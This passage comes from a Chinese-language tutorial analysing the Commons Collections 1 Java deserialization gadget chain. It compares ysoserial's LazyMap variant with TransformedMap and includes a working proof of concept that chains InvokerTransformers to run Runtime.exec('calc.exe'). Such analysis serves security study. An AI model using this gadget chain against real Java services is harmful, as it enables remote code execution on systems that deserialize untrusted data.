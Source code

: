```java
		PayloadRunner.run(CommonsCollections1.class, args);
	}

	public static boolean isApplicableJavaVersion() {
        return JavaVersion.isAnnInvHUniversalMethodImpl();
    }
}

```
上述的ysoserial的代码 和 我们前文分析的POC的区别
**①LazyMap类**
链条里使用的类是**LazyMap**这个类，这个类和**TransformedMap**类似。都是AbstractMapDecorator继承抽象类是Apache Commons Collections提供的一个类。在两个类不同点在于TransformedMap是在put方法去触发transform方法，而LazyMap是在get方法去调用方法。
LazyMap在get方法中
![image.png](http://moonsec.top/articlepic/11cb4ed3ad33ac2ce3f1cab6e2c59787.png)
TransformedMap 在put方法中
![image.png](http://moonsec.top/articlepic/b7e4adfab37b6da4b092aa6dc68743a0.png)
修改之前的POC，使用layzmap
```java

public class CC1_2 {
    public static void main(String[] args) throws Exception {
            //此处构建了一个transformers的数组，在其中构建了任意函数执行的核心代码
            Transformer[] transformers = new Transformer[] {
                    new ConstantTransformer(Runtime.class),
                    new InvokerTransformer("getMethod", new Class[] {String.class, Class[].class }, new Object[] {"getRuntime", new Class[0] }),
                    new InvokerTransformer("invoke", new Class[] {Object.class, Object[].class }, new Object[] {null, new Object[0] }),
                    new InvokerTransformer("exec", new Class[] {String.class }, new Object[] {"calc.exe"})
            };
            //将transformers数组存入ChaniedTransformer这个继承类
            Transformer transformerChain = new ChainedTransformer(transformers);
            //创建Map并绑定transformerChina
            Map innerMap = new HashMap();
            innerMap.put("key", "value");
            //给予map数据转化链
//            Map outerMap = TransformedMap.decorate(innerMap, null, transformerChain);
        Map outerMap = LazyMap.decorate(innerMap, transformerChain);
            //触发漏洞
//            outerMap.put("test", "xxxx");
        outerMap.get("test");
        }
    }

```
![image.png](http://moonsec.top/articlepic/963551d278df680b5d48249fdfe0daa9.png)
